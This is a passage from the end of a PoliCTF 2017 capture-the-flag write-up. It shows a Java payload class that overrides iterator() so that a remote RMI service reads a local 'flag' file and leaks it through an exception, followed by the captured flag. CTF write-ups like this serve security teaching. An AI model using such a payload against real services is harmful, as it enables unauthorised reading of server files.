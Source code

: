 ```java
}
```
Running this, we see that a file named `flag` is inside the current working directory!

Now all that's left to do is reading the flag:
```java
package it.polictf.lamermi;

import java.util.*;
import java.io.*;

public class Payload3 extends ArrayList<Integer> {

	public Iterator<Integer> iterator() {
		String msg = "";
		try {
			BufferedReader br = new BufferedReader(new FileReader("flag"));
			String line = br.readLine();
			while (line != null) {
				msg += line + "\n";
				line = br.readLine();
			}
			br.close();
		} catch (IOException e) {
			msg = "error";
		}
		throw new RuntimeException(msg);
	}
}
```
Flag: `flag{Br4nd0n_W4ash_1s_b4ck_1n_t0wn!}`

## Conclusion

I'd like to thank [Tower of Hanoi](http://toh.necst.it/), who organized PoliCTF 2017, for this fun and interesting challenge.

This was the first challenge I ever got first blood on, and my very first writeup; I hope you enjoyed it!
